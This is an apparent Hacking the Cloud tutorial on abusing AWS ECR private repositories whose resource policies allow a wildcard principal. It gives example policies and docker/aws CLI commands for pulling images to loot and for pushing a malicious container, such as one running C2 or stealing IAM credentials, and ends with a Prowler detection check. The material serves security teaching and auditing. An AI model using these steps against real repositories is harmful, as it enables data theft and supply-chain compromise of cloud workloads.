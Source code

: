 ```yaml
---
author_name: Nick Frichette
title: Abusing Misconfigured ECR Resource Policies
description: How to take advantage of misconfigured AWS ECR private repositories.
---
```


AWS Elastic Container Registry (ECR) [private repositories](https://docs.aws.amazon.com/AmazonECR/latest/userguide/Repositories.html) use resource-based policies to delineate which entities are permitted to push and pull containers. As a result, it is possible for these policies to be [misconfigured](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/) and potentially abused. The following are some examples of possible misconfigurations and the required permissions needed to take advantage of them.

!!! Note
    Aside from the [wildcard principal](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/#the-principal-and-risks), you should also be mindful of overbroad permissions in general, such as permitting an entire AWS account to have access.

## Understanding ecr:GetAuthorizationToken

A unique [requirement](https://docs.aws.amazon.com/AmazonECR/latest/userguide/repository-policies.html#repository-policy-vs-iam-policy) to abusing misconfigured resource-based policies in ECR is [ecr:GetAuthorizationToken](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-authorization-token.html). The attacking entity must have this permission via an identity-based policy, it cannot be permitted via a resource-based policy (even if the `Action` element is `ecr:*`). For scenarios in which the policy has a [wildcard principal](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/#the-principal-and-risks) and a broken policy, this is not a problem as you can create a role with the needed permission.

!!! Note
    When interacting with an ECR private repository via the [Docker](https://github.com/docker/cli) cli, you use [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html) to authenticate. This calls `ecr:GetAuthorizationToken` to provide the needed authorization.

## Downloading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:BatchGetImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-get-image.html), [ecr:GetDownloadURLForLayer](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-download-url-for-layer.html).

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAll",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

This policy would permit us the ability to download containers from the vulnerable repository to our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.<region>.amazonaws.com
```

Next, we will pull the container with the following command.

```
docker pull <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

We can now loot this container for source code or other valuable information.

## Uploading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:InitiateLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/initiate-layer-upload.html), [ecr:UploadLayerPart](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/upload-layer-part.html), [ecr:BatchCheckLayerAvailability](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-check-layer-availability.html), [ecr:CompleteLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/complete-layer-upload.html), [ecr:PutImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/put-image.html).

!!! Info
    As an anecdotal aside, the number of permissions required to perform a container upload may inadvertently increase the likelihood of a `Principal` being set to `*`. If you're a developer or ops person just trying to get something done, it may be enticing to set it to a wildcard and be done with it/forget about it.

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "ExamplePolicy",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "ecr:*"
    }
  ]
}
```

This policy would permit us the ability to upload containers to the repository from our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.<region>.amazonaws.com
```

Next, we need to create/choose a container to upload. In a real world scenario you would likely want to create a container which runs your C2 of choice, or perhaps a simple script to retrieve IAM credentials. For this example, we will use an Ubuntu container.

```
docker tag ubuntu:latest <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

And finally we push the container into the repository.

```
docker push <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

Now we simply have to wait for a service (ECS, EKS, EC2, Lambda, etc.) to pull this malicious container and execute it, giving us access to that environment.

## Identification

To find exposed ECR private repositories you can use [Prowler](https://github.com/prowler-cloud/prowler), an open source tool to audit for AWS security. The following command can be used with version 3.0 or higher.

```
./prowler -c ecr_repositories_not_publicly_accessible
                         _
 _ __  _ __ _____      _| | ___ _ __
| '_ \| '__/ _ \ \ /\ / / |/ _ \ '__|
| |_) | | | (_) \ V  V /| |  __/ |
| .__/|_|  \___/ \_/\_/ |_|\___|_|v3.0-beta-21Nov2022
|_| the handy cloud security tool

Date: 2022-11-26 19:12:03

This report is being generated using credentials below:

AWS-CLI Profile: [default] AWS Filter Region: [all]
AWS Account: [000000000000] UserId: [AROAQQPLEQBZZHQGGAQ55:Nick]
Caller Identity ARN: [arn:aws:sts::000000000000:assumed-role/snip/Nick]

Executing 1 checks, please wait...

-> Scan is completed! |▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉| 1/1 [100%] in 4.5s 

Overview Results:
╭───────────────────┬─────────────────╮
│ 100.0% (1) Failed │ 0.0% (0) Passed │
╰───────────────────┴─────────────────╯

Account 009619941490 Scan Results (severity columns are for fails only):
╭────────────┬───────────┬──────────┬────────────┬────────┬──────────┬───────╮
│ Provider   │ Service   │ Status   │   Critical │   High │   Medium │   Low │
├────────────┼───────────┼──────────┼────────────┼────────┼──────────┼───────┤
│ aws        │ ecr       │ FAIL (1) │          1 │      0 │        0 │     0 │
╰────────────┴───────────┴──────────┴────────────┴────────┴──────────┴───────╯
```

!!! Note
    `Condition` elements may induce false positives.
